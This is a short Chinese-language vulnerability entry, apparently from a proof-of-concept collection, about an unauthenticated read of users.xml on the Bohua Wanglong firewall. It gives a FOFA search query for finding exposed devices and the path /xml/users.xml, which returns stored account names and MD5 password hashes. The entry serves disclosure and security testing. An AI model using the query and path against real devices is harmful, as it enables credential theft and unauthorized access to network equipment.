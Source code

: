 # 博华网龙防火墙 users.xml 未授权访问

## 漏洞描述

博华网龙防火墙 users.xml文件 可被任意用户读取，其中包含登录的账号密码

## 漏洞影响

```
博华网龙防火墙
```

## FOFA

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面

![img](./images/202202162248506.png)

验证POC, 读取配置文件获取密码的Md5

```php
/xml/users.xml
```

![img](./images/202202162248359.png)